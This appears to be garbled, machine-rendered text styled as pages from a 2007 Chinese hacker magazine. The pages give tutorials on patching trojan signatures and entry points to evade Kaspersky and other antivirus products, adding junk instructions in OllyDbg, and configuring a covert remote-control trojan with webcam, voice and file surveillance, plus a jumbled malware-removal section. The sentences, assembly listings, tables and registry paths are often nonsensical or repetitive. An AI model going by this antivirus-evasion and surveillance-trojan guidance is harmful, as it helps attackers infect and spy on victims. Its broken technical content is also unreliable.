用小写的特征码，`2B`、`6C`、`67`，转换成`2A`、`4C`、`67`。保存，以后修改特征码为`PCClient`。好，我们又找了一个。有些人觉得这为了下次修改时要怎么办？我只需要把写下去，以后再发现没有为止，再使用这个特征码，删除特征码，就可以发现是`PCClient`了，删除特征文件，下载这几个就是最后的特征码ID。

| 序号 | 特征码 | 大小 |
| :--- | :--- | :--- |
| 0001 | `00000000` | 8 |
| 0002 | `00000000` | 8 |

用插件软件打开特征码开始修改`1980`修改大小，确定是否可以。

| 序号 | 特征码 | 大小 |
| :--- | :--- | :--- |
| 0001 | `00000000` | 8 |
| 0002 | `00000000` | 8 |

图 3

接下来，修改这三个特征码，结果如图4所示：


# 免病毒：从特征到再次检测到特征

`E:\w01\0007_0001_back\00000000.exe`

（该路径重复出现多次）

修改了`280-2300`这`80`字节特征码后，此文件到达了特征。现在我们来对最后的特征结构进行修改，如图所示。

| 序号 | 特征码 | 大小 |
| :--- | :--- | :--- |
| 0001 | `00000000` | 8 |
| 0002 | `00000000` | 8 |

图 7

我们看到`PCClient`的特征码已经更改为了`19F4-FF`，接下来我们来反向修改，如图所示。

| 序号 | 特征码 | 大小 |
| :--- | :--- | :--- |
| 0001 | `00002C2E` | 8 |
| 0002 | `00002D33` | 8 |

图 8

最后的`PCClient`特征码是`7F`，我们来反向修改。这里是三个特征码，首先修改一个ASCII特征码，“`Drv`”改为“`Drt`”，在`72`、`76`之后使用大写字母转换，现在再反向修改软件特征发现是`PCClient`了，这样证明我们修改的大写特征码是正确的。再次把特征码修改，发现了`80`字节的特征码：

```
E:\w01\0007_0001_back\00000000.exe
E:\w01\0007_0001_back\00000000.exe
E:\w01\0007_0001_back\00000000.exe
E:\w01\0007_0001_back\00000000.exe
```

图 5

| 序号 | 特征码 | 大小 |
| :--- | :--- | :--- |
| 0001 | `00002C2E` | 8 |
| 0002 | `00002D33` | 8 |

我们使用命令来做特征，最后发现没有错误，成功了！然后测试功能可以正常运行。图 9

免病毒是这样的，根据卡巴斯基的病毒名称来对待阶段变，通过不同的名称查找不同的特征，检测到相同特征。


其实这就很简单，很多病毒通过特征重命名来定义。文档中的`WinHex`在删除了`36`个文件后，有什么用呢？我们可以使用的资源管理器，或者用一个简单的快捷键`Ctrl+M`打开文件，然后用`WinHex`打开，就可以查看它创建的某个特征，比如上面的`PCClient`，它是`8909`号文件，这里还有`3880`个字符，当我们再次进行查找后，就可以使用资源管理器查出来，如图10所示：


图10

在最后的前面我们可以轻松地使用某个特定特征，通过修改时间修改多个特征，使得我们可以更容易的对这些特征进行查找和修改。再次来说关于卡斯基杀毒软件的问题，我该如何添加卡斯基杀毒软件的方法呢？这里只需要：

| 适合场景 | 病毒 | 破解者 | 前置处理 | 破解基础 |
| :--- | :--- | :--- | :--- | :--- |
| 防护软件 | 病毒 | 破解爱好者 | | |

# 病毒防护软件的特征

文档中的特征里我们发现了属于病毒防护的特征。今天我们来对卡斯基进行确定，在寻找卡斯基时我们要寻找特定的特征，比如特征时间，和原始特征在文档中的某一次查找中就找到了。我们今天用一个`MySQL`工具来对比是否符合特定特征，也可以在特定的特征中确定，这里我们要学习如何把属于卡斯基的样本文件特征的。我们先来讲解一下`MySQL`的使用方法，这里要让资源看起来完全一样，然后用第`10`页的特征开始查找替换代码，或者用程序，先定义索引，把特征代码替换为`10`号，然后从第一页开始查找并替换文件。完成完成后，将卡斯基杀毒软件生成的特征文件清除。但是，卡斯基将会把它们移动到备用分区，首先会隔离杀毒样本本身的特征密集度，由于它占据的空间已经满了，我找不到可以设置不移动到备用分区的选项，或者我尝试使用`NTFS`的设置来解决这个问题，如果还是没有好办法了，也可以隔离它。

```
卡斯基将会把样本文件移动到
ALLUSERSPAV_PROFILE\ApplicationData\Kaspersky-Anti-Virus\Backup\
```


图1

但是，反正这样了，每次卡斯基启动后文件就不重新备份。所以我们需要重新设置，关于特征的设置。设置一个自动更新的位置，当卡斯基启动后更新时，我们只需把它删除掉。这里可以告诉大家原理，手动操作的话很快就可以处理其他的特征。发现修改了`80`字节的特征码，最后的`PCClient`特征码是`7F`，我们来反向修改。


# HACKER TOOLS ATTACK & DEFENSE

手动添加，可以指定特征。使用工具，可以进行多个特征的定位，并实现动态化。我们现在开始实际操作。

1. 使用工具连接到`SERVER_EXE`，大家可以用`Hex`进行定位了。
2. 打开修改器，如图所示。图4所示。


图4

我们点击，再二次点击出现一个窗口。


图5


图6

按照提示我们要做的特征文件后缀连续进行二次点击，到程序不再提示此特征，我们再次点击，特征的多次复合定位，特征定位就完成了。


特征定位出现了，图7所示。


图7

我们点击文件挂载到的`SERVER_EXE`，程序显示`SERVER_EXE`的一些信息。

7. 在右侧“特征/特征码设置”中已经有了这样的特征`0091A2C_00000528`，我们点右选择复制该特征，可以得到这样的结果，图8所示。

`PE`文件：选择文件路径：`C:\Windows\System32\Administrator\Server.exe`

由于此特征，选择特征码`0010A0A4_00840000528`而且还是，我们点击`A15`，在空白处右键再次点击，选择修改特征。

| 状态 | 起始码 | 物理地址 |
| :--- | :--- | :--- |
| `CODE` | `00000000 A0000120` | |
| `DATA` | `001A050000000000` | |
| `BSS` | `000A200000000000` | |
| `.data` | `000A760000000000` | |
| `.reldata` | `0000080000000000` | |
| `.textsec` | `00000000 00000260` | |

定义特征码

8. 到这里为止，特征6的结果，得到的结果是特征`0010A0A4_00840000528`。由于这个特征太大了，我们认为是可以精确定位特征的，只有`8`个字符，在“特征/特征码设置”中找到特征`1000A0A4_00840000528`，点击右键，选择定位在此处。

图9所示。

在黑色的区域中，找到卡巴基病毒的特征码代码区中，3.点击定位找到我们要的特征所在的空闲地，通过调整显示大小，找到足够小的特征码，然后点击一个按钮，我们就可以定位。进一步可以，找到`8`个字符的特征码结果为`0000A0B2_00000000`，再次定位特征`1000A01D4_00000528`这个特征码中的位置再选择步骤8就可以得到该特征。

4. 在现在的四个窗口中找到1-在开始时`00000400`，内存中找到`000A0120`，定位结果中自动定位，然后点击定位，得到的特征如5所示。

5. 我们点击定位特征的特征，程序运行后会出现一个定位的结果信息提示，这里会显示我们定位的结果。

6. 我们点击确认，点击修改按钮，找到我们3所述的提示，我们点击`YES`。

```
程序代码
输出结果
00000000 0000120
```


10个样本文件件，找到我们下提示所示，


图3

## 实战免杀西游大侠

适合读者：木马爱好者、爱编程者

前置要求：基础知识

文/ Zero_cold

这段时间闹闹的朋友们都在研究木马技术，一个好朋友是小伙伴，他给我写了一个梦想2006的木马，希望我也能给他写一个。

后来，我的朋友先用`DIE`拦截了，之后就程序没运行了，改用`C++ 6.0`写的，被`ASPack 2.12`拦截后，就没有被运行了，但是`MM`没有报错，还是可能是他在前面留了一些特殊的事情呢？

通过由于的免杀处理就没有被拦截了。这次木马是在内存中查找特征，在服务器端，用`CEALL`找到了内存的特征码，一般情况下不大的内存特征码就是`Text`，选择`CEALL`的内存特征码后，每`5`秒保存一次文件，文件大小缩小到每`5`秒点一次运行，然后重新运行的内存特征码保存成木马。

最后还是被拦截了，不是，因为我已经做了，过了又重了，还是不行，因为代码里没有特征码，找到了特征的过程和结果完全一样，我直接把它找出来的结果如图1所示：


| 序号 | 偏移地址 | 大小 | 修改次数 |
|---|---|---|---|
| 0001 | `00000000` | `00000024` | 0 |

由于这个特征码的比较比较短，如果在修改的过程中中有冲突的话，就会程序报错了，我用的方法是改写字符串的方法，并不可以你修改它的特征，我修改之后就会超过字符串的长度，那么我修改后的结果如图2所示：

```
0000a0f 72 75 65 72 65 6e 74 75 73 65 72 65 72 6F 3E 3C
0000a1f 72 75 65 72 65 6e 74 75 73 65 72 65 72 76 3E
```


可以比较一下了，看看对不对。

经过这次修改，我们用`OD`加载再保存它，发现已经没有被拦截了，木马运行成功，进入`C:\Windows\System32`执行“`svchost.exe`”已经在桌面了，这个文件就是后台运行的进程。

聚留的内存特征码，服务器端是可以被拦截的，这里我们使用`CEALL`特征码定位是相当简单的，用特征定位和内存特征定位的方法，这里我还是直接修改特征进入地址了，只有这种方法成功的下次就会找到它的特征码了。

首先把保存的特征文件用`OD`加载，然后找到入口点，在内存中跳转将特征的入口点移动到这里，在上面加上一个跳转指令如图3所示。

```
000403b8是服务器端用OD写入的入口地址
```

全部提取到特征文件并保存，然后再用特征跳转`0408815`写入成特征文件，最后用`PE`编辑器重新保存免杀的服务，如图4所示。


新的入口点就是用偏移跳转转换器写入的文件偏移`00000819`，在`OD`修改后，我们发现木马已经成功跳转了新的跳转地址，就不再能被拦截了。

当对方的方法并不止于此，你就可以检测特征了，对于你就需要寻找具体的特征，例如寻找、跳转等指令，接下来的操作我们就用特征工具来查看结果，如图6所示。


前置跳转项就可以了。到这一个免杀的木马就好了。

`www.hacker.com` (黑客社区) 2007年版权所有 ☠ 禁止转载 ☠ 欢迎分享

# HACKER TOOLS ATTACK& DEFENSE

适合读者 木马爱好者

前置知识 基础免杀知识

## VIP会员免杀2006服务终结

文/图 [某某]VIP3036 完

前两天的VIP网，看到后大家还不会自己免杀2006的杀法，结论自己2006出来这么久了对2006的还有很多问题，告诉大大家2006的杀法其实就是简单的，只有没有`DLL`文件了，对于杀主们如何加花、加特征码再修改这几种免杀的杀锏。

## 课程内容

今天我们就教大家如何用免杀做2006服务终结的课程，主要教如何用2006服务终结免杀。

- 1. 加`getkey.dll`的特征修改与特征（内存中修改结束了）
- 2. 修改`main.dll`的特征修改与特征（内存中修改结束了)
- 3. 定位特征`Setup.exe`把特征保存（结果结束了）

现在我们开始：

- 1. 使用`CE`加`getkey`修改`Setup.exe`，导出`main.dll`，如图所示：``

- 2. 使用`CE`找到特征导出的`main.dll`，如图所示：``

- 3. 加`getkey.dll`我们加入这一段字节码

```
0087C38 0000  ADD PTR [EAX]
0087C3C 0000  ADD PTR [EAX]
0087C40 77E7  JMP short 0087C38
```

再次用加密后的`getkey.dll`文件的内存为`0000C55`来说，这样就完成了`getkey`的特征，保存后，就可以免杀。

- 4. 使用`CE`加导出的`main.exe`，这次是加入`getkey.dll`的特征中，保存后，就可以了。可能，特征还是可以被杀的。

- 5. 再次免杀`main.dll`，这还需要一个工具`PE`把`main.dll`合并，我们点击生成按钮把特征合并到最终的文件内容，保存，这样已经结束了。

- 6. 使用`CE`加导出的`Setup.exe`，这次是`main.dll`在`MAINOLD`中，保存后，现在特征已经结束了。

- 7. 我们用`ACL`定位`Setup.exe`，这次的特征已经结束了，结果如下：

- 8. 使用`CESetup.exe`，使用通用跳转方法。

`www.hacker.com` 2007年版权所有

# HACKER TOOLS ATTACK DEFENSE

改特征`0000BD69_00000002`。把这个程序代码：

```
0000C2C 68 01F0F00  PUSH 50F1
0000C2D A1 50B91413  MOV EAX,JWORD
DS:134B90
0000C3C 69 3F8FFF  JMP SHORT
0000C3DD 90        NOP
0000C3D7 89 A1 50B1413  MOV EAX,(JWORD)
DS:134B90
0000B1D5 6A 00  PUSH 0
0000B1D6 6A 00  PUSH 0
0000B1D8 68 00  PUSH 50F1
0000B1D7 A1 50B91413  MOV EAX,(JWORD)
DS:134B90
```

跳转到：

```
0000C228 6A 00  PUSH 0
0000C22A 6A 00  PUSH 0
```

这时可以不用再调试了，用最后一次调试看能否运行，结果如何？我们的教学可以对于。建议大家通过上面介绍的`3`种方法运用。

湖南已经把我们带走了，东方不再将我们，我们所选择的或许只有杀和`PShare`。如果你已经把这些被木马“卖毒”了，那么你应该来看看国内最新推出的“`CNC`控制”吧！作者准备软件要害怕，木马要害怕。

前置知识杀的基本操作。

## 战斗开始！！

## CNC进程控制程序

文/图：天亮策划


## 配置服务器

运行客户端程序，弹出`CNC`的主界面，图1。从图1中我们可以看到`CNC`的后台界面以及签名杀的操作界面有很多不同的，将杀的主要功能集中在屏幕上的界面上，中间的部分是程序计算机的运行列表，这里可以使用用户工具对调试时机器运行进行管理。

信息设置完成后，我们对配置程序的格式进行选择，除了常用的`EXE`格式之外还可以使用`SCR`、`BAT`等多种格式，最后点击生成按钮就能生成相应的程序端包如图2所示。


图2

## 服务端修改

通过工具工具的“图标工具”按钮，可以通过任何`EXE`文件，点击并修改图标变成橙色的`EXE`文件，没有处理过的`EXE`文件中选择生成的服务程序，然后点击选择一个`EXE`程序。用户从源文件选择获取需要的图标：

图3

## 生成程序

首先是来配置一个服务端，通过工具工具配置按钮，在弹出的“配置服务器”立即操作：


# HACKER ATTACK TOOLS & DEFENSE

CNC的服务器不支持方便部署，服务端利用了木马技术，可以将服务端进程注入到浏览器或资源管理器中使用IP地址。为了方便部署，服务端利用了木马技术，可以将服务端进程注入到浏览器或资源管理器中使用IP地址，通过这种方式。

聚焦，我们最好为它加头。

## 客户端设置

CNC连接到远程机器，为了让服务端和客户端进行通信，必须打开“远程监控”客户端，点击顶部菜单“上线”菜单，选择“远程监控”。在客户端中监听端口8000，此时CNC连接将暂时中断，再次点击“远程监控”按钮，即可看到“打开连接”成功，来自主机侧的提示。“摄像头监控”和“语音控制”是我们远程控制的手段。通过我们可以监控用户的一切活动，包括播放的内容、语音控制（终端），语音控制是比较高效监控方式，点击“摄像头监控”中选择参数和设备，然后点击“开始”，即可监控功能。

## 远程控制

为了测试CNC的控制功能功能我们将服务端安装到局域内的另一台电脑中，如图所示。文件传输是远程控制中不可忽视的操作，点击“文件传输”命令在弹出的“文件传输”窗口中选择要传输的文件对应的本地路径，如图所示： 图4

 图8

从图中我们可以看到控制的相关信息，包括IP地址、用户、系统版本、服务端程序等。用户可以使用特定的命令进行控制，可以使用右键中的命令列表进行修改，对于不需要的操作即可。除此，CNC提供的管理功能还包括“进程管理”、“服务管理”、“注册列表”等，“结束”命令可以使用软件防止后台程序的运行。CNC的远程控制允许用户对远程的任何操作执行：浏览器、全屏和远程控制……点击“全屏”和远程控制在屏幕上通过全屏模式来实现远程控制，在局域内的另一台计算机上操作，“保存屏幕”按钮，还可以在截图时将屏幕自动保存在客户端的位置，如图所示。在“服务管理”中，可以查看运行的服务、停止、重启。点击“安装一个服务”按钮，系统会弹出窗口，用户需要输入新创建服务的名称、描述、服务程序的路径等，如图所示： 图5

 图命令窗口

为了一个`CMD`的命令，大家都想通过查看“共享”来实现，但这并不准确。通过远程连接到计算机的所有共享资源，也可以利用计算机资源映射到本机进行，这样操作起来更方便了，实际上是一个客户端窗口，可以命令行和远程计算机进行数据交换，从而实现局域内无法访问的网络服务，如图所示： 图7

最后来看还有一个特别CNC中还有一个功能——“远程桌面”这个功能在左上角的机器中出现，而在其他的版本中未出现的功能，点击“远程桌面”，弹出一个查看桌面图8。

## 服务器端的清理

选择“开启”选项后，就可以查看计算机前后在传输的数据包，如帮助、地址、源地址以及字符等，见图9。通过服务器端的配置，我们知道CNC是否有要求用户对服务器客户端的设置，这表明服务器程序：

由于服务器服务命令是可以下载在运行计算机中的服务器程序的，因此在弹出的服务器功能窗口中隐藏了“下载文件”、“网页浏览器”、“键盘”等Socks5代理服务器功能项。Socks5代理服务器可以直接连接将计算机配置为一台Socks5代理服务器，如图10所示：

## VIP实战环境

适合读者：爱者、学者

前置要求：必备工具

## 尘染与木马

在黑海上经历了这么多教程，小我终于学会了如何做出第一个挂马，毫无流量，但是这种挂马的技术是可以学会的，请不要尝试。最新的DDoS的创建方法真是人挂马，这里有现成的木马，这里有现成的木马，这里有现成的木马，这里有现成的木马，这里有现成的木马，这里有现成的木马，这里有现成的木马，这里有现成的木马，这里有现成的木马，这里有现成的木马，这里有现成的木马，这里有现成的木马，这里有现成的木马。

## 小结

在此为止，CNC介绍，通过注册的操作是`HKEY_LOCAL_MACHINE\SOFTWARE\Windows\CurrentVersion\Winlogon`对于`Explorer` `C:\Windows\System32\cnc.exe`。

同句，再找一个区域，我们将该区域扩开`033E4A24`，你可以在区域内选择一个数的起始入口，在入口处替换掉原本的`NOP`指令`mov esp,bp`；加上一个指令（比如跳转），建议不要直接修改，否则软件就不会识别了，大家可以先备份文件试试修改：

```
0033E498      nop              nop
0033E49A      nop              nop
0033E4A0      push          esp,-48
0033E4B2      mov           esp,bp
0033E4B6      mov           eax,ebp
0033E4B7      call          0033E498
```

连接替换`NOP`后的箭头，用`0033E49F`进行修改图4所示：

右键选择“复制到文件”后，修改文件的后缀重命名为`MYDLL.dll`，然后使用PE调试器在`MYDLL.dll`中找到起始入口`0014A24`，现在你可以尝试修改它了，如果崩溃，那么你的软件就会崩溃。如果已经崩溃了，尝试在下面这一处修改，看看是否还会崩溃。这些修改并不能保证你一定能成功，只有在调试器中找到定位的“小”字时，可以成功使用`MYDLL.dll`进行操作（如果遇到问题，可以尝试用`NaPack`打包，如果依然崩溃的话，尝试第5版本）。现在Lab的软件崩溃后，尝试`MYDLL.dll`后再次使用插件即可。

尝试时主机上的程序并运行，发现在\内DLL生成了。现在我们可以对它已经崩溃的DLL文件对服务端。我们对修改后的EXE文件进行调试，如果你发现插件加载就可以了，为了确保万一，我还是手工修改后，还是用“去头部+插件”的方法

这里要注意：如果跳转接在跳转的区域内`mov esp,bp`；在有效指令中执行跳转会导致无法执行的指令如图所示：

我们需要借助插件服务端增加一个PE段。我们使用了`PYDLL`插件服务端增加了一个`locker`的PE，加上100字节后，起始地址到`0002700`，图7所示：

现在使用插件服务端，先`NOP`掉入口的箭头。现在使用快捷`Ctrl+G`跳转到修改的`PE0002700`。这里需要把一个跳转接到新的入口处执行跳转（使用插件项），这样就不会崩溃了图8所示：

```
00027000      push          ebp
00027001      mov           ebp,esp
00027003      push          ecx
00027005      mov           esp,-48
00027008      push          50
0002700a      push          eax
0002700c      nop
0002700d      push          eb
0002700f      jmp           E9F0FF
```

# HACKER TOOLS ATTACK&DEFENSE

没错，朋友电脑里都装了些病毒软件，而且有些人还是正版杀毒。

但手机电脑每天都会产生很多病毒，而且某些孩子也许也装了病毒软件那可怕。

病毒软件永远运行下去会毁掉你的电脑，如果那时你又没有备份的软件，我们要用清理软件才能解决。

这就，它最强的杀毒家伙你听说过吗？一起来感受一下一切的锋利吧！

- 适合者：网络爱好者，爱装机者，爱玩机者

- 前置需要：无

```
文件/ FKL.exe
```


路径，删除即可。

不过有的朋友发现，自己的 IE 也是红色的进程，如果可能是那个 DLL 模型，它已经插入了你的 IE 里，我们可以看右侧的模块，如图 1 所示，它加载的 DLL 实例化。

## 如何杀杀它

凡是木马都会在每次开机时自动启动，如果木马不会自动启动，那它们就没有被我们灭除了。所以我们这些杀毒家伙注意注册系统的启动项，自动启动的方法有很多，比如注册表、注册启动项，还有其他地方，`INI`文件等，我将为你介绍：

| 序号 | 路径 | 描述 | 状态 |
| --- | --- | --- | --- |
| 0001 | `C:\Windows\System32\drivers\vmmouse.sys` | 虚拟机鼠标驱动 | 运行 |
| 0002 | `C:\Windows\System32\drivers\vmmouse.sys` | 虚拟机键盘驱动 | 运行 |
| 0003 | `C:\Windows\System32\drivers\vmdfs.sys` | 虚拟机磁盘驱动 | 运行 |
| 0004 | `C:\Windows\System32\drivers\vmsync.sys` | 虚拟机时间驱动 | 运行 |
| 0005 | `C:\Windows\System32\drivers\vmusvideo.sys` | 虚拟机视频驱动 | 运行 |
| 0006 | `C:\Windows\System32\drivers\vmmouse.sys` | 虚拟机鼠标驱动 | 运行 |
| 0007 | `C:\Windows\System32\drivers\vmmouse.sys` | 虚拟机键盘驱动 | 运行 |
| 0008 | `C:\Windows\System32\drivers\vmdfs.sys` | 虚拟机磁盘驱动 | 运行 |
| 0009 | `C:\Windows\System32\drivers\vmsync.sys` | 虚拟机时间驱动 | 运行 |
| 0010 | `C:\Windows\System32\drivers\vmusvideo.sys` | 虚拟机视频驱动 | 运行 |
| 0011 | `C:\Windows\System32\drivers\vmmouse.sys` | 虚拟机鼠标驱动 | 运行 |
| 0012 | `C:\Windows\System32\drivers\vmmouse.sys` | 虚拟机键盘驱动 | 运行 |
| 0013 | `C:\Windows\System32\drivers\vmdfs.sys` | 虚拟机磁盘驱动 | 运行 |
| 0014 | `C:\Windows\System32\drivers\vmsync.sys` | 虚拟机时间驱动 | 运行 |
| 0015 | `C:\Windows\System32\drivers\vmusvideo.sys` | 虚拟机视频驱动 | 运行 |


点击运行，输入`msconfig` XP 之后，Windows 2000 会让你看到自动启动的项，这里就是它加载的 DLL 注册项，`Microsoft\Windows\CurrentVersion\Run`的。

在`msconfig`里可以查看，对于你不熟悉的启动项，不知道它是不是病毒，就先删掉比较好。建议大家先勾选“隐藏所有微软的启动项”，之后，点击系统启动项禁用。但是发现注册项异常的地方，比如病毒软件的名字很奇怪，然后 Windows 就会崩溃了。

你也许会删除 DLL，你确定它是木马的。如果是某种插件的方法，我们可以通过挂钩进程运行后再删除，这样就能避免删除木马后还有剩余的 DLL。

很多木马都是自动启动的，发现病毒后会自动进行清理，这里你需要使用的 DLL 有一个功能是阻止进程创建，如图 2 所示。这种方法可以防止病毒再次运行，比如木马，注册 Windows 的启动项来防止它，用 DLL 这种方法足够了。杀木马的方法有很多种，所以我们应该把病毒每个地方都找，如果其中一个过了，就没有效果了。

| 序号 | 路径 | 描述 | 状态 |
| --- | --- | --- | --- |
| 0001 | `C:\Windows\System32\drivers\vmmouse.sys` | 虚拟机鼠标驱动 | 运行 |
| 0002 | `C:\Windows\System32\drivers\vmmouse.sys` | 虚拟机键盘驱动 | 运行 |
| 0003 | `C:\Windows\System32\drivers\vmdfs.sys` | 虚拟机磁盘驱动 | 运行 |
| 0004 | `C:\Windows\System32\drivers\vmsync.sys` | 虚拟机时间驱动 | 运行 |
| 0005 | `C:\Windows\System32\drivers\vmusvideo.sys` | 虚拟机视频驱动 | 运行 |
| 0006 | `C:\Windows\System32\drivers\vmmouse.sys` | 虚拟机鼠标驱动 | 运行 |
| 0007 | `C:\Windows\System32\drivers\vmmouse.sys` | 虚拟机键盘驱动 | 运行 |
| 0008 | `C:\Windows\System32\drivers\vmdfs.sys` | 虚拟机磁盘驱动 | 运行 |
| 0009 | `C:\Windows\System32\drivers\vmsync.sys` | 虚拟机时间驱动 | 运行 |
| 0010 | `C:\Windows\System32\drivers\vmusvideo.sys` | 虚拟机视频驱动 | 运行 |
| 0011 | `C:\Windows\System32\drivers\vmmouse.sys` | 虚拟机鼠标驱动 | 运行 |
| 0012 | `C:\Windows\System32\drivers\vmmouse.sys` | 虚拟机键盘驱动 | 运行 |
| 0013 | `C:\Windows\System32\drivers\vmdfs.sys` | 虚拟机磁盘驱动 | 运行 |
| 0014 | `C:\Windows\System32\drivers\vmsync.sys` | 虚拟机时间驱动 | 运行 |
| 0015 | `C:\Windows\System32\drivers\vmusvideo.sys` | 虚拟机视频驱动 | 运行 |


有的病毒很危险，需要用到一些方法。对于我们来说，最有效的方法是找到木马的方法，比如找到木马的进程。病毒可以查看签名，因为很多木马是签名自己的程序，所以你要查看病毒熟悉程度才知道是哪个木马进程。在管理器窗口里，如果看到是红色的字，说明它就是木马了，一般来说就说是木马了。这样删除后，就不会再自动启动了，但是其他运行也不可能被除了，所以删除文件只能通过这种功能。如果删除后发现还存在，或者显示使用不删除就会出事，这说明这个办法是不行的。操作起来有点麻烦了，我们可以尝试去下载一个 DLL 到底是什么文件，看看它的属性，把它改成自己的文件，连被病毒拦截了。可是因为病毒到处搜索这问题，我的办法是，如果是 NTFS 的就可以通过删除路径找到它，然后选择性删除，把其中的所有属性删除，这样别人就可以用同一个文件，我自己无法删除它。还有一种办法就是改名，如果是 Windows 的文件名，改名后，之后就不会运行了，这样就能解决这个软件无法删除的问题。

## 尝试下杀死 - 用 `CMD` 和 `PowerShell`

我们尝试不同的方法，也许就可以自己先给它下个指令，我们再用这个工具查看，如图 3 所示。


图 3

直接扫描，看到 NTFS 上有一个 `Netrsv` Unknown。哦，我们可以把这个移动到桌面，点击删除然后重启系统就删了，可能我们不删除就会干掉它，也可以通过重启来删除，如图 4 所示。


图 4

我没有 IE，这里还有多个 IE，明显有很多问题。我们结束了，然后结束进程，再找到 `Netrsv`，如图 5 所示。


图 5

按照提示的，WINDOWS `netrsv.exe` 命令后，因为它已经成了系统文件并被删除了，所以我们要在用 `CMD` / 杀掉它 `netrsv` 进程，这样我们强行锁死它，就可以删除了。这样之后它就起不来了。现在用 `PowerShell`，它是最强大的工具了，删除它可能只需要一个命令。尝试各种方法，实用就是重启电脑，重启电脑还是不行，再尝试用工具删除，发现没什么奇怪的，删除结果还是不行。这种病毒会自动再次创建，这种方法可以防止病毒再次运行，注册启动项会被修改。对于这种病毒，用 Windows 的启动项来防止它，用 DLL 这种方法足够了。杀木马的方法有很多种，所以我们应该把病毒每个地方都找。


图 6


你发现有一个“？”开头的文件，如果是这个开头的不是自动的，那么有可能是因为病毒还会产生文件，大家可以把它存在文件夹里，比如在`System32`之后。管理器不能删掉，所以我们再利用工具查看文件删除了，删除后后再用 Windows 命令行，有一个长名字，很正常，但是现在是不能删除，或者正在运行的程序不能删除，最后直接删除掉`DLL`。我们的安全，这样可能变成病毒。

# HACKER TOOLS ATTACK&DEFENSE

- 适合读者：黑客爱好者
- 前置知识：无

## HVK-KV 内存杀毒模块分析

为了不影响系统性能，我向杀毒软件在某些情况下不得不，杀毒软件呢其实很简单，就是要把杀毒的一些有用功能提取出来。通过以下编写程序，对病毒进行扫描。`KV`在运行时会有很担心的功能，功能可以在不杀毒的情况下进行内存查询：


现在选择程序，执行`Filemon`，这是一个操作程序的，将病毒的完整数据包到注册文本中，其中作为该文件及其子文件的键值。许多进程会查询文件，其中操作选择该文件及其子文件的操作，注册表记录很多数据，分析来说也轻松了。`Filemon`设置了`setup.exe`，根据安装程序的提示进行操作，扫描完成后是扫描的结果：


选择“下一步”，要安装的：在安装程序中，我们就要先拿着安装程序，`KV`程序只有一个文件，双击后可以看到图 2 所示：


正确选择病毒扫描。其实是一个自解压程序，等它运行完毕后，它可以在文件中查找一个名为病毒的文件，这里面就是压缩的文件，如图所示：

我们将要的数据保存下来，打开`Ultra32`编辑器。点击“文件”->“保存”，选择“自动保存”功能，如图 5 所示：


在菜单中选择“列表”，这样就可以进行操作，还能进行查找，每次的操作都会转换到列表，再次选择“列表”，选择中的项转换到固定列表，再进行查找，如图 6 所示：


在处理的对话框中点击“扫描”按钮，程序会自动分析文件，给出合适的列，然后点击“转换”按钮重新排列列，如图 7 所示。


返回处理后，可以看到所有的起始位置都相同了，我们就可以选择排序以外的内容，再按“列”选择单单元，点击“删除”如图 8 所示。


这样就把处理的内容都处理了。如果发现了程序中存在许多所需要的文件，这里还有一个选项，注意一下可能不准确，在文件中有很多版本，每一个版本都记录下来，然后把这些版本文件，存放在排序的“高级排序”选项，如图 9 所示。


# HACKER TOOLS ATTACK&DEFENCE

## 修改文件

加载后，我们开始修改文件然后返回的入口点，`0004E1E8`，我们将入口的几行代码移动到原来的空地，这里我们找到了入口的3行，后点击右键菜单并选择“复制”菜单中的“断调试”命令，如图6所示。

### 字母大写为小写

将`EXPLORE.EXE`改为`zEXPLORE.EXE`，重命名后我们按照上述步骤进行。

### 方法二：使用ASCII码替换

这种方法对字符串中的字符进行替换修改，如图4所示。


## 加花

通过修改注册服务的密钥，我们找到了所有字符串的地址，通常在程序的某个位置，此处有特征标识，下面通过修改文件和将跳转指令来执行跳转。在内存中找到一个跳转指令，然后在其前面加一个`NOP`指令，这样程序执行时就不会崩溃，只需找到加花即可。

首先通过反汇编工具`Ollybg`将程序自动停在原来的`0004E1E8`，如图5所示。


在程序的内存中找到一个空地，`0004A21E`，从向下跳转的位置，点击右键选择“插入”菜单中的“使用`NOP`命令”，将这几行代码替换，然后点击右键菜单的“复制”命令，在“汇编”窗口中再次写入

```
mov eax
mov esp
pop nop-nop
push 111111
push 222222
mov eax, [esp]
pop esp
pop eax
mov esp
mov eax, [esp]
pop esp
pop nop
pop nop
pop eax
mov ebx
jmp 0004A218
```


复制完成后，点击复制并选择“复制”菜单中的“使用`NOP`命令”，将这几行代码替换完到`0004A21E`后，点击右键选择“复制”汇编命令，在“汇编”窗口中将替换的第3行代码，最后在第四行中添加`nop 000A1E00`从而使得程序能够运行到第4行代码，执行跳转的操作。

修改后，我们来进行文件的保存，然后点击右键的“复制文件”，连接在它的子菜单中选择全部保存命令，如图7。


看到出一个标记为“复制到可执行文件”窗口，点击汇编中的“全替换”按钮，在弹出的窗口中点击“保存文件”，点击“保存”我们将我们修改的程序另存为`exe`。

由于修改了跳转指令，程序在入口处修改后可以运行，由于使用了`PE`编辑器来更新跳转的地址，在入口处，点击“PE菜单”选择跳转修改后的程序，我们在“入口处”处理原来的`0004E1E8`，更新为了新的地址：`0004A21E`，然后保存，如图8。


www.hacker.com

黑客学院 2007年 网络安全技术 版权所有

# HACKER TOOLS ATTACKDEFENSE

> 基础教程》butterfly@hacker.com.cn

| 字段 | 值 | 备注 |
| --- | --- | --- |
| 入口点 | `0004A1A8` | 子狐 |
| 登录密码 | `00000000` | |
| 复制的 | `24A2B5E9` | |
| 代表代码 | `00001000` | 狐狸 |
| 代理代码 | `000004D2` | |
| 密文 | `00000007` | 目标 |
| 文件内容 | `000000A0` | |


## 更改服务器端

已经过了这些处理选项，确保服务器已经没有被卡斯基、金山、黑狐、李莉等等占用。现在，我们将这些服务器资源充分利用，由于这些的服务器已经配置了配置信息，在选择时将要把的信息写入到服务器资源中，这样我们就可以查看自己的配置信息到服务器了。

### 1. 自己的配置信息

用户先选择的狐狸资源属于自己的服务器资源，连接成功后点击左侧的“资源”->“RC资源”，然后点击“HACKER”，在右侧列中可以看到一个字段，这里就是我们需要复制的配置信息，在字段上右键点击复制，再次复制将其粘贴到`PE`管理器中的字段。打开文件选择资源，后续步骤：点击“HACKER”，在资源栏中的字段右键点击“确定”，最后确定已经完成了服务器配置。直接将剩余的服务器更改为母体，这样用户就可以“一劳永逸”的。运行`Resource Hacker`，在“文件”菜单中的“查找”，选择刚才创建的服务器。在资源树中找到“RC资源”的项目，在对应的项目上右键点击，选择“配置资源”，如图所示。


